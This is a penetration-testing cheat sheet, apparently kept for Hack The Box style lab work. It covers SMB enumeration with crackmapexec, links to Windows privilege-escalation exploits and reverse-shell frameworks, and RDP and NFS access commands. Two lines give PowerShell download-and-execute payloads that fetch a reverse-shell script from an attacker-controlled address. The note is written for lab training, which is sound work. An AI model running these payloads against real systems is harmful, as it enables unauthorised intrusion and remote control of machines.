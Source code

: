 ### Crackmapexec
https://wiki.porchetta.industries/

`crackmapexec smb 10.10.10.161 -u '' -p ''`

`crackmapexec smb 10.10.10.161 --pass-pol`

`crackmapexec smb 10.10.10.161 --users`

`crackmapexec smb 10.10.10.161 --groups`

### Misconfig/Vulnerability specific commands 
[Pre-Compiled Windows Exploits for common vulns](https://github.com/abatchy17/WindowsExploits)

[How to exploit MS16-032](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html)

[MS16-032 Exploit Script](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) 

**note** add a line at the end `Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1')"` 

[Upload web.config file for ASP server own](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

[Buffer Overflow Cheatsheet](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)

[Buffer Overflow tutorial](https://www.youtube.com/watch?v=1X2JGF_9JGM)


### Mount an NFS share that has ACL applied (root squashing)
` sudo nfspysh -o server=10.10.11.191:/var/www/html` 

[Mount and extract password hashes from VHD Files](https://vk9-sec.com/mount-extract-password-hashes-from-vhd-files/)


### Shells and Remote access 
[Nishang PowerShell pentesting framework (Payloads, shells, etc)](https://github.com/samratashok/nishang)

[Invoke-Powershelltcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)

### RDP to Machine
`xfreerdp +nego +sec-rdp +sec-tls +sec-nla /d: /u: /p: /v:[MACHINE_NAME] /u:[USERNAME] /p:[PASSWORD] /size:1180x708`

`EX: xfreerdp +nego +sec-rdp +sec-tls +sec-nla /d: /u: /p: /v:manageengine /u:administrator /p:studentlab /size:1800x900`

### Check if Powershell is running as 32 or 64 bit (Helpful to check if kernel exploits are failing)
`PS C:\Users> [Environment]::Is64BitProcess` returns true/false 
if running as 32 bit, call the powershell from `C:\windows\sysNative` instead of `C:\windows\system32` 
Example - `C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1')`  
More info in writeup for [Optimum](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html)

